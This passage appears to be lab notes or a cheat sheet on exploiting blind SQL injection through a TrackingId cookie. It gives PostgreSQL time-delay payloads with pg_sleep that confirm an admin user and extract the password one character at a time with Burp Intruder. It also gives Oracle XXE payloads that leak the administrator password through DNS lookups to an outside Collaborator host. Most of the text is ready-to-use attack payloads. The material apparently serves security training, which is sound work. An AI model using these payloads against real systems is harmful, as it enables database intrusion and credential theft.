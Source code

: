 ```
Keep incrementing the offset until it matches the length of the password
```

### Exploiting blind sql injection by triggering time delay on Postgresql
The application will take 10 seconds to respond because the condition is true, if the condition is false then there will be no delays in response
```
TrackingId=xyz'%3BSELECT CASE WHEN(1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
Confirming if there is user called admin
```
TrackingId=xyz'%3BSELECT CASE WHEN(username='admin') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
Confirming that the password is greater than 1 character in length
```
TrackingId=xyz'%3BSELECT CASE WHEN(username='admin' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
Test the character at each position of the password characters
```
TrackingId=xyz'%3BSELECT CASE WHEN(username='admin' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
# Use burpsuite intruder to test each characters
# Set the positon and payloads but for resource pool, add a new one with the "Maximum concurrent requests" set to 1
# Start the attack and go to the columns tab, check the box for "response received"
# Normally the number of response received would be in the region of 10,000 miliseconds
```

### Exploiting blind sql injection by triggering dns lookup on Oracle
The SQL queries will trigger a DNS lookup to Burp Collaborator domain
```
TrackingId=xyz'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```
We can modify the payload to leak the administrator's password in an interaction with the Collaborator server
```
TrackingId=xyz'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username='administrator')||'.xwx7bqlvhiwjbf9yhu39b4ogr7xyln.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
Send the request and click POLL NOW on Collaborator client

In one of the DNS lookup, you can see the full domain name that was looked up is shown in the Description tab and the password for administrator is included in the domain name

